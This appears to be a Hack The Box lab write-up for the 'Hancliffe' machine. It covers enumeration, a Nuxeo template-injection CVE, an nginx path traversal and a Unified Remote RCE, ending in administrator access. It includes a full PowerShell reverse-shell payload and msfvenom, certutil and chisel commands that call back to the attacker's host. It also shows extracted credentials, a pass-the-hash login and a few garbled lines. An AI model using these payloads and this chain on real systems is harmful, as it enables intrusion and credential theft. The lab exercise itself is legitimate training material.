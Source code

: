 > Author: **[Revolt][author-profile]**

## Discovery

### Port Scanning

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
8000/tcp open  http    nginx 1.21.0
9999/tcp open  abyss?
```

Probably a Python / JS app.

### Directories

```bash
gobuster dir -u http://10.10.11.115:80/ -w /usr/share/wordlists/discovery/raft-medium-words.txt -o discovery/directories.80.txt
# /.                    (Status: 200) [Size: 612]
# /maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
# /Maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
# /con                  (Status: 500) [Size: 494]
# /nul                  (Status: 500) [Size: 494]
gobuster dir -u http://10.10.11.115:8000/ -w /usr/share/wordlists/discovery/raft-medium-words.txt -o discovery/directories.8000.txt
# /includes             (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/includes/]
# /LICENSE              (Status: 200) [Size: 34501]
# /assets               (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/assets/]
# /.                    (Status: 200) [Size: 7880]
# /license              (Status: 200) [Size: 34501]
# /Includes             (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/Includes/]
# /Assets               (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/Assets/]
# /con                  (Status: 500) [Size: 177]
# /License              (Status: 200) [Size: 34501]
# /INCLUDES             (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/INCLUDES/]
# /.gitignore           (Status: 200) [Size: 9]
gobuster dir -u http://10.10.11.115:80/maintenance/ -w /usr/share/wordlists/discovery/raft-medium-words.txt -o discovery/directories.maintenance.80.txt
# /.xhtml               (Status: 401) [Size: 220]
# /.                    (Status: 200) [Size: 714]
# /.jsf                 (Status: 200) [Size: 117]
```

### Virtual Hosts

Here goes nothing:

```bash
ffuf -u http://10.10.11.115/ --domain hancliffe.htb --append-domain \
  -w /usr/share/wordlists/discovery/raft-medium-words.txt \
  -o discovery/vhosts.80.txt
```

### Web Browsing

On `10.10.11.115:80`, `/maintenance/` redirects to `/nuxeo/Maintenance/`, while
`/Maintenance/` displays this message:

[][screenshot-maintenance]

And the port 8000 hosts a password manager:

![][screenshot-hashpass]

## Break-in

Nginx has a known path traversal [vulnerability with aliases][nginx-path-traversal].

```bash
ffuf -u http://10.10.11.115/maintenance/..;/FUZZ \
  -w /usr/share/wordlists/discovery/raft-small-words.txt \
  -o discovery/files.maintenance.80.txt
```

The login page displays the version of Nuxeo: `10.2`. It has a known CVE, with
a [POC on github][cve-2018-16341].

After updating the path to `login.jsp` to match `/maintenance/..;/login.jsp`
and removing the code for UNIX, the POC returns a shell:

```bash
python www/cve-2018-16341.py
# [+] Checking template injection vulnerability => OK
# command (WIN)> whoami
# [+] Executing command =>
# hancliffe\svc_account
```

It is not fully funtional, but it can be used to execute a reverse shell.
We generate it with a utility script:

```python
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
```

In the end I hardcoded the reverse shell in the CVE script so it'd be faster.

## Lateral Movement

```powershell
get-nettcpconnection | where {($_.State -eq "Listen") -and ($_.RemoteAddress -eq "0.0.0.0")} | select LocalAddress,LocalPort,RemoteAddress,RemotePort,State,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).Path}} | ft
```

```
LocalAddress LocalPort RemoteAddress RemotePort  State Process
------------ --------- ------------- ----------  ----- -------
0.0.0.0          49668 0.0.0.0                0 Listen services
0.0.0.0          49667 0.0.0.0                0 Listen svchost
0.0.0.0          49666 0.0.0.0                0 Listen svchost
0.0.0.0          49665 0.0.0.0                0 Listen wininit
0.0.0.0          49664 0.0.0.0                0 Listen lsass
0.0.0.0           9999 0.0.0.0                0 Listen svchost
0.0.0.0           9770 0.0.0.0                0 Listen MyFirstApp
0.0.0.0           9512 0.0.0.0                0 Listen RemoteServerWin
0.0.0.0           9510 0.0.0.0                0 Listen RemoteServerWin
127.0.0.1         9300 0.0.0.0                0 Listen java
127.0.0.1         9200 0.0.0.0                0 Listen java
127.0.0.1         8080 0.0.0.0                0 Listen java
127.0.0.1         8009 0.0.0.0                0 Listen java
127.0.0.1         8005 0.0.0.0                0 Listen java
0.0.0.0           8000 0.0.0.0                0 Listen nginx
0.0.0.0           5432 0.0.0.0                0 Listen postgres
0.0.0.0           5040 0.0.0.0                0 Listen svchost
10.10.11.115       139 0.0.0.0                0 Listen System
0.0.0.0            135 0.0.0.0                0 Listen svchost
0.0.0.0             80 0.0.0.0                0 Listen nginx
```

Port 9512 and 9770 both look interesting.

The service listening on port 9512 is `Unified Remote`: it is unsual enough
to warrant closer inspection.

It is available from the local host only, so we forward it first:

```bash
./chisel server -p 8888 --reverse
```

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.16.48:8000/chisel.exe', 'C:\Nuxeo\chisel.exe')
./chisel.exe client 10.10.16.48:8888 R:9512:127.0.0.1:9512
```

Nmap fails to identify the service, but the port scan from Powershell tells
us it's the `Unified Remote 3.9`:

```bash
searchsploit 'unified remote'
# ----------------------------------------------------------------------------------------------------- ---------------------------------
#  Exploit Title                                                                                       |  Path
# ----------------------------------------------------------------------------------------------------- ---------------------------------
# CA Unified Infrastructure Management Nimsoft 7.80 - Remote Buffer Overflow                           | windows/remote/48156.c
# Cisco Unified Operations Manager 8.5 - Common Services Device Center Cross-Site Scripting            | hardware/remote/35780.txt
# Cisco Unified Operations Manager 8.5 - 'iptm/advancedfind.do?extn' Cross-Site Scripting              | hardware/remote/35762.txt
# Cisco Unified Operations Manager 8.5 - 'iptm/ddv.do?deviceInstanceName' Cross-Site Scripting         | hardware/remote/35763.txt
# Cisco Unified Operations Manager 8.5 - iptm/eventmon Multiple Cross-Site Scripting Vulnerabilities   | hardware/remote/35764.txt
# Cisco Unified Operations Manager 8.5 - '/iptm/faultmon/ui/dojo/Main/eventmon_wrapper.jsp' Multiple C | hardware/remote/35765.txt
# Cisco Unified Operations Manager 8.5 - '/iptm/logicalTopo.do' Multiple Cross-Site Scripting Vulnerab | hardware/remote/35766.txt
# Cisco Unified Operations Manager - Multiple Vulnerabilities                                          | windows/remote/17304.txt
# Comodo Unified Threat Management Web Console 2.7.0 - Remote Code Execution                           | multiple/webapps/48825.py
# McAfee Unified Threat Management Firewall 4.0.6 - 'page' Cross-Site Scripting                        | windows/remote/34115.txt
# NVR SP2 2.0 'nvUnifiedControl.dll 1.1.45.0' - 'SetText()' Command Execution                          | windows/remote/4322.html
# Sun ONE Unified Development Server 5.0 - Recursive Document Type Definition                          | multiple/remote/22178.xml
# Unified Remote 3.9.0.2463 - Remote Code Execution                                                    | windows/remote/49587.py
searchsploit -m 49587
```

This exploit requires a payload:

```bash
msfvenom --arch x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.48 LPORT=7777 -f exe -o rs.exe
```

And the script uploads the reverse shell itself, but requires to setup a
webserver. So we upload it manually before running the exploit:

```powershell
certutil.exe -f -urlcache "http://10.10.16.48:8000/rs.exe" "C:\Nuxeo\rs.exe"
```

(as hancliffe\svc_account)

And point the exploit to `C:\Nuxeo\rs.exe` since `C:\Windows\Temp` failed.

Then we can finally exploit the local port 9512, forwarded from the server:

```bash
nc -lvnp 7777
/usr/bin/python2.7 49587.py 127.0.0.1 10.10.16.48 rs.exe
```

Finally!

## Still on the Move

The previous enumerations identified vectors that weren't used yet:

- `MyFirstApp`, listening on port 9770
- [`Hashpass`][hashpass-github], listening on port 8000
- the `Brankas Application` on port 9999

The stateless password generator will always return the same result for a

Browsing through the profile folders:

```powershell
type C:\Users\clara\App logins.json\Mozilla\Firefox\Profiles\ljftf853.default-release\logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"http://localhost:8000","httpRealm":null,"formSubmitURL":"http://localhost:8000","usernameField":"website","passwordField":"masterpassword","encryptedUsername":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECP+7GREfh/OCBBACN8BqXSHhgvedk/ffsRBn","encryptedPassword":"MFIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECEQe5quezh5lBCg7VV7cXOky4tBMinRRncbXJl1YC3P0Ql5J8ZZS6ZnVjg9yXrbOq1Me","guid":"{39d1884b-56cd-4e30-869b-e0d9df6ca9d9}","encType":1,"timeCreated":1624771259387,"timeLastUsed":1624771259387,"timePasswordChanged":1624771259387,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

Since "hostname" is `localhost:8000`, the encrypted password is most likely
the master password for Hashpass. These can be cracked with [Firefox Decrypt][firefox-decrypt].

> ``#@H@ncLiff3D3velopm3ntM@st3rK3y*!``

Next the Hashpass service on port 8000 claims that it will always return the
same output for any given input. Hoping that the employees used this service
too, we try to retrieve the credentials of the `development` user:

```
Full Name: development
Website: hancliffe.htb
Password: `#@H@ncLiff3D3velopm3ntM@st3rK3y*!`
```

> development AMl.q2DHp?2.C/V0kNFU

Then we can execute commands as development:

```powershell
./chisel.exe client 10.10.16.48:8888 R:5985:127.0.0.1:5985
```

```bash
evil-winrm -i 127.0.0.1 -u development -p 'AMl.q2DHp?2.C/V0kNFU'
```

## Escalation

Now it is finally possible to access "MyFirstApp" and download it via
Evil-WinRM.

Next we load the app in Ghidra and explore the code. The app is vulnerable
to the socket reuse attack, as detailed [here][article-socket-reuse].

```bash
evil-winrm -i 127.0.0.1 -u administrator -H 2e5e9a333abf90ec9673220eb3befb83
```

[author-profile]: https://app.hackthebox.eu/users/189435

[article-socket-reuse]: https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/
[cve-2018-16341]: https://github.com/mpgn/CVE-2018-16341
[firefox-ecrypt]: https://github.com/unode/firefox_decrypt
[hashpass-github]: https://github.com/scottparry/hashpass
[nginx-path-traversal]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[screenshot-hashpass]: images/screenshots/hashpass.png
[screenshot-maintenance]: images/screenshots/maintenance.png
